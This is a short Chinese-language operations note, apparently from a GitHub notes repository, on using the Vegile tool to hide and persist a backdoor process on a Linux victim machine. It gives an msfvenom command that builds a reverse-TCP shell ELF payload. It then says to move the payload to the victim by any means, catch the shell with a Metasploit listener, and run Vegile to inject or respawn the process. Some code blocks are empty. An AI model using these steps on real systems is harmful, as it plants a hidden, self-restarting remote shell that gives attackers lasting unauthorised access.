





# Vegile隐藏进程后门

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BLinux%2B%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81-Vegile%E9%9A%90%E8%97%8F%E8%BF%9B%E7%A8%8B%E5%90%8E%E9%97%A8.md)

Vegile是一个用来隐藏自己的进程的工具，即使进程被杀，又会重新启动。总会有一个进程会运行另一个进程，所以我们可以假设这个进程是不可阻挡的。

**attack机器**

先生成个后门：

```
msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR
```



```
```

使用任意一种方式传到victim机器。

使用msf监听：


**victim机器**

```
git clone https://github.com/Screetsec/Vegile.git
cd Vegile
chmod +x Vegile
```



**-i**是进程注入的方式
**-u**是进程被杀还可以继续反弹shell

运行

```
./Vegile --i test
```





**--u**也类似，就不演示了。
